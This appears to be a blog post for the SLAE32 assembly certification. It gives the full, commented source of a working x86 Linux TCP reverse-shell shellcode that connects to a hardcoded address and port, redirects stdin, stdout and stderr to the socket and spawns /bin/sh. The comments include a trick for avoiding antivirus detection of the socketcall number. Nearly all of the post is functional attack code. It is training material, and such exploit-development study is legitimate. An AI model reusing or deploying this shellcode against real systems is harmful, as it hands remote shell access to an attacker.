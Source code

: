 ```yaml
---
layout: post
title: SLAE32 Assignment 2 - reverse shell
excerpt: asm code and comment for my revshell
---
```

    ; name     : tcprevshell
    ; author     : Sandro "guly" Zaccarini SLAE-1037
    ; purpose    : the program will create a new connection to a given ip/port and present a shell to it
    ;            this code has been written for SLAE32 assignment 2
    ; references : https://syscalls.kernelgrok.com/ , /usr/include/linux/net.h , man socketcall
    ; license    : CC-BY-NC-SA
    ;
    ; high level flow:
    ; socket -> connect -> dup fd -> spawn /bin//sh
    ;
    ; i'll use different function name to keep it more readable. mostly, function are never called and are used just as "anchor for the human eyes"
    
    global _start
    
    section .text
    
    ; dummy function used to break easily on gdb while debugging, just rets without touching anything
    ; i used to place a call trap and recompile, while having a "b trap" on ~/.gdbinit
    trap:
    ret
    
    zero:
    ; zero eax and ebx by xoring against themself
    xor eax,eax
    xor ebx,ebx
    ret
    
    socketcall2eax:
    ; place syscall code for socketcall in eax, which is 0x66, no need to zero because i use mov.
    ; i'm using add to avoid hardcoded 0x66 call, which could be trapped by some AV, when 0x33 is the call acct and looks harmless to me
    mov al,0x33
    add al,0x33
    ret
    
    ; main code starts here
    _start:
    ; start by zeroing eax,ebx. not really needed because registers are clean, but better safe than sorry
    call zero
    
    createsocket:
    ; ----------------------------------------------------------------------------------------
    ; purpose     : create a socket
    ; references  : man socket
    ; description :
    ; socketcall is the syscall used to work with socket. i'm going to use this syscall to create and connect
    ; the very first thing i have to do, is to create the socket itself. by reading references, i see that she needs 3 registers:
    ; eax => syscall id 0x66 for socketcall, that will be the same for every socketcall call of course and that's why i created a function on top
    ; ebx => socket call id, that is 0x1 for socket creation
    ; ecx => pointer to socket args
    ;
    ; man socket shows me that socket's args are:
    ; domain   => AF_INET because i'm creating a inet socket, and is 0x2
    ; type     => tcp is referenced as STREAM, that is 0x1
    ; protocol => unneded here because there is no inner protocol, so i'll use 0x0
    
    ; not, i'm creating ecx because a zeroed eax is perfect for the purpose
    ; arg will be pushed in reverse order with no hardcoded address: 0, 1, 2
    push eax
    inc eax
    push eax
    inc eax
    push eax
    
    ; because socketcall needs a pointer, i'm moving esp address to ecx
    mov ecx,esp
    
    ; prepare eax to hold the socketcall value as discussed before
    call socketcall2eax
    
    ; because ebx is 0, i can just inc to have it to 1 for socketcall to call socket (pun intended :) )
    inc ebx
    
    ; do the call and create socket
    int 0x80
    
    ; because syscall rets to eax, if everything's good, eax will hold socket file descriptor: save it to esi to have it safe for the whole run
    mov esi,eax
    
    connect:
    ; ----------------------------------------------------------------------------------------
    ; purpose     : connect to raddr:rport
    ; references  : man connect , man 7 ip
    ; description :
    ; eax => syscall id 0x66 for socketcall
    ; ebx => connect call id, 0x3 taken from linux/net.h
    ; ecx => pointer to address struct
    ;
    ; man connect shows me that args are:
    ; sockfd  => already saved in esi
    ; address => pointer to ip struct
    ; addrlen => addrlen is 32bit (0x10)
    ;
    ; man 7 ip shows address struct details. arguments are:
    ; family => AF_INET, so 0x2
    ; port   => held by rport from .data
    ; addr   => held by raddr from .data
    
    ; again, better safe than sorry
    call zero
    
    ; push arg in reverse and move the pointer to ecx
    ; prepare stack pointer to addr struct defined in man 7 ip
    ; push raddr, defined in .data
    push raddr
    ; push port to bind to, defined in .data. pushed as word.
    push word rport
    ; push AF_INET value as word again
    push word 0x2
    ; get stack pointer to ecx
    mov ecx,esp
    
    ; push arg, again in reverse order
    ; addrlen is fixed to 16, or 0x10
    push byte 0x10
    ; pointer to addr struct
    push ecx
    ; sockfd, saved before to esi
    push esi
    ; stack pointer to ecx again, to feed bind socketcall
    mov ecx,esp
    
    ; ebx has been zeroed, mov 0x3 to him
    mov bl,0x3
    
    ; same call to have 0x66 to eax and do socketcall
    call socketcall2eax
    
    ; do the call
    int 0x80
    
    dupfd:
    ; ----------------------------------------------------------------------------------------
    ; purpose     : create fd used by /bin//sh
    ; references  : man dup2
    ; description : every shell has three file descriptor: STDIN(0), STDOUT(1), STDERR(2)
    ; this code will create said fd
    ; eax => 0x3f got from kernelgrok website
    ; ebx => clientid
    ; ecx => newfd id, said file descriptor
    ;
    ; i'm going to create them by looping using ecx, to save some instruction. ecx will start at 2, then is dec and fd is created.
    ; as soon as ecx is 0, the loop ends
    
    
    ; i'm using a different method from one i've used for bindshell just to try.
    ; i'll put 0x3 to ecx to start creating STDERR just after dec
    ; ecx is dirty but edx is 0x0, just swap them
    xchg ecx,edx
    mov cl,0x3
    
    ; copy socket fd to ebx to feed clientid
    mov ebx,esi
    
    ; zero eax and start the loop
    xor eax,eax
    dup2:
    ; dup2 call id
    mov al,0x3f
    
    ; dec ecx to have 2,1,0
    dec ecx
    int 0x80
    ; loop until ecx is 0x0, we then have 3 runs: with 2, 1, 0 values
    jnz dup2
    
    spawnshell:
    ; ----------------------------------------------------------------------------------------
    ; purpose     : spawn /bin//sh
    ; references  : man execve
    ; description : put /bin//sh on the stack, aligned to 8 bytes to prevent 0x00 in the shellcode itself
    ; and null terminating it by pushing a zeroed register at first
    ; eax => execve call, 0xB
    ; ebx => pointer to executed string, which will be /bin//sh null terminated
    ; ecx => pointer to args to executed command, that could be 0x0
    ; edx => pointer to environment, which could be 0x0
    ;
    ; i need to push a null byte to terminate the string, easiest way is to zero a reg and push it but i know ecx is 0x0 so i can save one op
    push ecx
    push 0x68732f2f
    push 0x6e69622f
    ; here the stack will looks like a null terminated /bin/sh:
    ; /bin//sh\0\0\0\0\0\0\0\0
    
    ; and place pointer to ebx
    mov ebx,esp
    
    ; envp to edx and ecx
    push ecx
    mov edx,esp
    push ecx
    mov ecx,esp
    
    ; execve syscall here
    mov al,0xB
    
    ; and pop shell
    int 0x80
    
     _end:
    ; neat exit
    xor eax,eax
    mov al,0x1
    int 0x80
    
    section .data
    ; 65533 converted in hex, then little endian
    rport equ 0xFDFF
    ; 172.16.201.162 in hex, then little endian
    ; i'm lucky that i don't have any 0 in my address, else raddr will contain null bytes. i'm going to publish also a 02_revshell_tcp_127.0.0.1.asm to challenge myself a bit
    raddr equ 0xa2c910ac
    
    ; This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/
